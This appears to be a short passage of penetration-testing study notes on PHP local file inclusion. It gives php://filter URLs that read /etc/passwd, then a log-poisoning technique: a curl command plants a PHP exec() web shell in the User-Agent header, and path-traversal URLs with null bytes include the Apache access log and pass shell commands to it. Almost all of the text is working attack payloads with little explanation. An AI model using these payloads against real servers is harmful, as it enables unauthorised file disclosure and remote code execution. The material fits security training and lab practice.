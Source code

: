 ```php
http://example.thm.labs/page.php?file=php://filter/read=string.rot13/resource=/etc/passwd 
http://example.thm.labs/page.php?file=php://filter/convert.base64-encode/resource=/etc/passwd
```




### File inclusion to Remote Code Execution

+ Problem: we can include local files, but can't upload our own code → 

+ Solution: send our code to the logfile and include that!

  ```shell
  curl -A "User-Agent: <?php exec(\$_GET['c']) ?>" http://site.com
  
  #Access File
  http://example.com/getFile?name=../../../../var/log/apache2/access.log%00
  
  #Add your commands
  http://example.com/getFile?c=ls&name=../../../../var/log/apache2/access.log%00
  ```

  

  
